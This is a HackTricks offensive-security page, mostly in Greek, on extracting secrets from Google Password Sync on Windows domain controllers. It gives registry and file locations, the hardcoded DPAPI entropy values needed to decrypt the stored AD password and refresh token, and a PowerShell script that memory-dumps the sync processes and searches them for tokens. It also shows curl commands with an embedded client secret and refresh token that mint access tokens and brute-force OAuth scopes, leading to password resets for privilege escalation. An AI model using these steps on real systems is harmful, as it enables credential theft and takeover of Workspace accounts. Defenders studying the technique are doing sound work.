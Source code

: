 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Αυτό είναι το δυαδικό και η υπηρεσία που προσφέρει η Google προκειμένου να **διατηρεί συγχρονισμένους τους κωδικούς πρόσβασης των χρηστών μεταξύ του AD** και του Workspace. Κάθε φορά που ένας χρήστης αλλάζει τον κωδικό του στο AD, αυτός ρυθμίζεται στην Google.

Εγκαθίσταται στο `C:\Program Files\Google\Password Sync` όπου μπορείτε να βρείτε το δυαδικό `PasswordSync.exe` για να το ρυθμίσετε και το `password_sync_service.exe` (η υπηρεσία που θα συνεχίσει να τρέχει).

### GPS - Configuration

Για να ρυθμίσετε αυτό το δυαδικό (και υπηρεσία), είναι απαραίτητο να **του δώσετε πρόσβαση σε έναν Super Admin principal στο Workspace**:

* Συνδεθείτε μέσω **OAuth** με την Google και στη συνέχεια θα **αποθηκεύσει ένα token στο μητρώο (κρυπτογραφημένο)**
* Διαθέσιμο μόνο σε Domain Controllers με GUI
* Δίνοντας κάποια **credentials Service Account από το GCP** (json αρχείο) με δικαιώματα να **διαχειρίζεται τους χρήστες του Workspace**
* Πολύ κακή ιδέα καθώς αυτά τα credentials δεν λήγουν ποτέ και θα μπορούσαν να χρησιμοποιηθούν κακόβουλα
* Πολύ κακή ιδέα να δώσετε πρόσβαση σε SA πάνω από το workspace καθώς το SA θα μπορούσε να παραβιαστεί στο GCP και θα είναι δυνατό να γίνει pivot στο Workspace
* Η Google το απαιτεί για domain controlled χωρίς GUI
* Αυτά τα creds αποθηκεύονται επίσης στο μητρώο

Όσον αφορά το AD, είναι δυνατό να υποδείξετε να χρησιμοποιήσει το τρέχον **context εφαρμογών, ανώνυμο ή κάποια συγκεκριμένα credentials**. Εάν επιλεγεί η επιλογή credentials, το **username** αποθηκεύεται μέσα σε ένα αρχείο στο **δίσκο** και ο **κωδικός πρόσβασης** είναι **κρυπτογραφημένος** και αποθηκεύεται στο **μητρώο**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Σημειώστε ότι το [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει **GPS**, να πάρει πληροφορίες σχετικά με τη ρύθμιση και **ακόμα και να αποκρυπτογραφήσει τον κωδικό πρόσβασης και το token**.
{% endhint %}

Στο αρχείο **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** είναι δυνατό να βρείτε μέρος της ρύθμισης όπως το **`baseDN`** του AD που έχει ρυθμιστεί και το **`username`** των credentials που χρησιμοποιούνται.

Στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`** είναι δυνατό να βρείτε το **κρυπτογραφημένο refresh token** και τον **κρυπτογραφημένο κωδικό πρόσβασης** για τον χρήστη AD (αν υπάρχει). Επιπλέον, εάν αντί για ένα token, χρησιμοποιηθούν κάποια **credentials SA**, είναι επίσης δυνατό να βρείτε αυτά κρυπτογραφημένα σε αυτή τη διεύθυνση μητρώου. Οι **τιμές** μέσα σε αυτό το μητρώο είναι μόνο **προσβάσιμες** από **Administrators**.

Ο κρυπτογραφημένος **κωδικός πρόσβασης** (αν υπάρχει) είναι μέσα στο κλειδί **`ADPassword`** και είναι κρυπτογραφημένος χρησιμοποιώντας το **`CryptProtectData`** API. Για να τον αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τη συγχρονισμένη κωδικό πρόσβασης και να χρησιμοποιήσετε αυτή την **εντροπία** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Το κρυπτογραφημένο token (αν υπάρχει) είναι μέσα στο κλειδί **`AuthToken`** και είναι κρυπτογραφημένο χρησιμοποιώντας το **`CryptProtectData`** API. Για να το αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τη συγχρονισμένη κωδικό πρόσβασης και να χρησιμοποιήσετε αυτή την **εντροπία** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Επιπλέον, είναι επίσης κωδικοποιημένο χρησιμοποιώντας base32hex με το λεξικό **`0123456789abcdefghijklmnopqrstv`**.

Οι τιμές εντροπίας βρέθηκαν χρησιμοποιώντας το εργαλείο. Ρυθμίστηκε για να παρακολουθεί τις κλήσεις προς **`CryptUnprotectData`** και **`CryptProtectData`** και στη συνέχεια το εργαλείο χρησιμοποιήθηκε για να εκκινήσει και να παρακολουθήσει το `PasswordSync.exe` το οποίο θα αποκρυπτογραφήσει τον ρυθμισμένο κωδικό πρόσβασης και το auth token στην αρχή και το εργαλείο θα **δείξει τις τιμές για την εντροπία που χρησιμοποιήθηκε** και στις δύο περιπτώσεις:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Σημειώστε ότι είναι επίσης δυνατό να δείτε τις **αποκρυπτογραφημένες** τιμές στην είσοδο ή έξοδο των κλήσεων σε αυτές τις APIs επίσης (σε περίπτωση που κάποια στιγμή το Winpeas σταματήσει να λειτουργεί).

Σε περίπτωση που η συγχρονισμένη κωδικός πρόσβασης έχει **ρυθμιστεί με SA credentials**, θα αποθηκευτεί επίσης σε κλειδιά μέσα στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Ακριβώς όπως με το GCPW, είναι δυνατό να κάνετε dump τη μνήμη της διαδικασίας του `PasswordSync.exe` και των διαδικασιών `password_sync_service.exe` και θα είστε σε θέση να βρείτε refresh και access tokens (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τα ρυθμισμένα credentials του AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατό να ζητήσετε οποιοδήποτε scope για το access token, καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ποιο είναι το ίδιο που παίρνετε αν δεν υποδείξετε καμία έκταση.

{% hint style="danger" %}
Με αυτή την έκταση θα μπορούσατε **να τροποποιήσετε τον κωδικό πρόσβασης ενός υπάρχοντος χρήστη για να κλιμακώσετε τα προνόμια**.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
